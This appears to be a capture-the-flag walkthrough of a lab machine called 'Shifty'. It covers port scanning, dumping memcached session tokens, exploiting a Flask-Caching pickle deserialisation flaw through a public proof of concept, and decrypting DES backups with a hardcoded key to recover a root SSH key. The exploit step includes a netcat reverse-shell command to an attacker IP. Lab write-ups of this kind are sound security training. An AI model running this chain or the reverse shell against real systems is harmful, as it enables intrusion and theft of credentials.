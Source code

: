 # Shifty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.59 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:57 +08
Nmap scan report for 192.168.202.59
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
5000/tcp  open   upnp
11211/tcp open   memcache
```

Memcache was open, of all things. I did a detailed `nmap` scan as well:

```
$ sudo nmap -p 80,5000,11211 -sC -sV --min-rate 4000 192.168.202.59           
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:58 +08
Nmap scan report for 192.168.202.59
Host is up (0.17s latency).

PORT      STATE SERVICE   VERSION
80/tcp    open  http      nginx 1.10.3
|_http-generator: Gatsby 2.22.15
|_http-server-header: nginx/1.10.3
|_http-title: Gatsby + Netlify CMS Starter
5000/tcp  open  http      Werkzeug httpd 1.0.1 (Python 3.5.3)
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
|_http-title: Hello, world!
11211/tcp open  memcached Memcached 1.4.33 (uptime 150 seconds)
```

Interesting.&#x20;

### Web + Memcache Enum

Port 80 looked rather static:

<figure><img src="../../../.gitbook/assets/image (4) (2) (5).png" alt=""><figcaption></figcaption></figure>

There was no public exploit for this software either, so let's move on. Port 5000 looked way more promising:

<figure><img src="../../../.gitbook/assets/image (15) (3).png" alt=""><figcaption></figcaption></figure>

We can login, and there's no additional functionality with this website. Viewing the requests, we can see that the login just assigned us a token:

<figure><img src="../../../.gitbook/assets/image (6) (16).png" alt=""><figcaption></figcaption></figure>

Moving to Memcache, we can dump it using `memcdump`. We instantly get loads of tokens:

```
$ memcdump --servers=192.168.202.59
<TRUNCATED>
session:8245fa94-7b27-4d99-a1c3-18a9f9db8e54
session:e90dd194-0be7-41f5-9362-a96431bea058
session:d5b40159-2bc4-4b57-91ae-2839ff3b040e
session:5cd631b0-49ba-4059-aae8-5dbae44f7c43
```

The last one was the same as above. I tried replacing the cookie within the request:

```http
GET /admin HTTP/1.1
Host: 192.168.202.59:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.202.59:5000/login
Connection: close
Cookie: session=hellothere
Upgrade-Insecure-Requests: 1

```

Interestingly, this cookie is stored in Memcached, indicating there's no cookie sanitisation there. Perhaps this could be poisoned?

<figure><img src="../../../.gitbook/assets/image (10) (8).png" alt=""><figcaption></figcaption></figure>

### Pickling RCE

I googled 'memcache cookie poisoning exploit' and looked at all the results. This repo was one of them:

{% embed url="https://github.com/CarlosG13/CVE-2021-33026" %}

It looked exactly like what I needed. So I tested it after resetting the VPN and the machine.&#x20;

```
$ python3 cve-2021-33026_PoC.py --rhost '192.168.202.59' --rport '5000' --cmd 'nc -e /bin/bash 192.168.45.179 80' --cookie 'session:session=5cd631b0-49ba-4059-aae8-5dbae44f7c43'
 ____ ___ ____ _  ___     _____         
|  _ \_ _/ ___| |/ / |   | ____|        
| |_) | | |   | ' /| |   |  _|    _____ 
|  __/| | |___| . \| |___| |___  |_____|
|_|  |___\____|_|\_\_____|_____|        
                                        
 __  __ _____ __  __  ____    _    ____ _   _ _____ ____   
|  \/  | ____|  \/  |/ ___|  / \  / ___| | | | ____|  _ \  
| |\/| |  _| | |\/| | |     / _ \| |   | |_| |  _| | | | | 
| |  | | |___| |  | | |___ / ___ \ |___|  _  | |___| |_| | 
|_|  |_|_____|_|  |_|\____/_/   \_\____|_| |_|_____|____/  
                                                           
  ____   ___ ___ ____   ___  _   _ ___ _   _  ____  
 |  _ \ / _ \_ _/ ___| / _ \| \ | |_ _| \ | |/ ___| 
 | |_) | | | | |\___ \| | | |  \| || ||  \| | |  _  
 |  __/| |_| | | ___) | |_| | |\  || || |\  | |_| | 
 |_|    \___/___|____/ \___/|_| \_|___|_| \_|\____|
```

We would get a shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (12) (14) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Encrypted Files --> Root SSH

There was a `backup.py` file within `/opt/backups`:

```python
import sys
import os
import hashlib
from des import des, CBC, PAD_PKCS5

def backup(name, file):
    dest_dir = os.path.dirname(os.path.realpath(__file__)) + '/data'
    dest_name = hashlib.sha224(name.encode('utf-8')).hexdigest()
    with open('{}/{}'.format(dest_dir, dest_name), 'wb') as dest:
        data = file.read()
        k = des(b"87629ae8", CBC, b"\0\0\0\0\0\0\0\0", pad=None, padmode=PAD_PKCS5)
        cipertext = k.encrypt(data)
        dest.write(cipertext)

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print('Usage: {} <file>'.format(sys.argv[0]))
    
    FILENAME = sys.argv[1]
    FILENAME = os.path.abspath(FILENAME)
    print('Backing up "{}"'.format(FILENAME))
    f = None
    try:
        f = open(FILENAME, 'rb')
        backup(FILENAME, f)
    except Exception as e:
        print('Could not open {}'.format(FILENAME))
        print(e)
    finally:
        if f:
            f.close()
```

In the `data` directory, there's also loads of encrypted files:

```
jerry@shifty:/opt/backups/data$ ls
0317ce62a75684cf0fcf8452a7fe5e5e919d1b730644bf16a304a919
11e3e83c5ea13aaed3b3ceb5edd72b9431ebc6ec2c447d412a0b7c7c
1a171f6f6491d3e4ca9cc0ca15a6c508c8815f6e29004bb29c0724d5
1cb607653518c3b1f08b1341322ead36dd8f93c3d2bfa23916fe28bd
1fd8c1281b186594d3d49f38cded4ce40faf862e9d409eb2a3a201cf
25a74de564e2aa81fbb8682f3fef798deda63f4cca65fd58901caecb
31328fa57f5c504df041f7f4f45498c766c0d12c33f78f33cff66bca
3fa4dcd297e960dc9e875437c67e7817356c487f57f828453756a2cc
403c9401a0224bd4f483dedb33ed0bf37fbd93881783ea0e600a49ff
5b1c7de10787e87d4d868457b7bf828154f1d02f653f2b57bce17abc
65895ecf8b82b9fa742e8fabde0fd7e60f1258a9e7ba3c1e9367a3e0
7297aeb420d0530ccb52dcb7f905ecc8deffefc32d02691561a9172e
7824132f0f0cc6da1dce3763d50c38c2941d07f9648e34c6c9b9ccf8
8cd58cbefd50ef93f1a3b173456f9b6a09a7318ada378c3a49a980f2
9038291aaa6b222363fc78837b934d1e2f96bb7cfe11fd3d73149e72
92e8127d493e205bfbd8a9c0dd165da2154768cebafa1c752d9bf0dc
dd533e5634f95c6d86a4f37f01453f5326c80e58b8a01f0a4222c011
dfe0444a971a789bb405c54c270ae25460f5699319aad697c7fd35ee
f166b490169e7de5795a09305837198579daad4694e233d49b126d91
```

I made a copy of all these files within my home directory, and began decrypting it using `openssl`. From the python script and based on the documentation for `des`, the key would be `87629ae8` and the IV is all null bytes.&#x20;

Since the key is interpreted as a bytes type object, we need to convert it to hex, which would give `3837363239616538`.&#x20;

Then, we can decrypt the files:

{% code overflow="wrap" %}
```
jerry@shifty:~/backup$ openssl enc -d -des-cbc -K 3837363239616538 -iv "0000000000000000" -in 3fa4dcd297e960dc9e875437c67e7817356c487f57f828453756a2cc -out decrypt
```
{% endcode %}

Then, we can bulk decrypt all of these files using a `bash` for loop:

{% code overflow="wrap" %}
```bash
for FILE in *; do openssl enc -d -des-cbc -K 3837363239616538 -iv "0000000000000000" -in $FILE -out decrypt$FILE; rm $FILE; done
```
{% endcode %}

Then, we can read all of the files. Within the decrypted files, there was a SSH private key:

<figure><img src="../../../.gitbook/assets/image (21) (8).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (17) (5) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
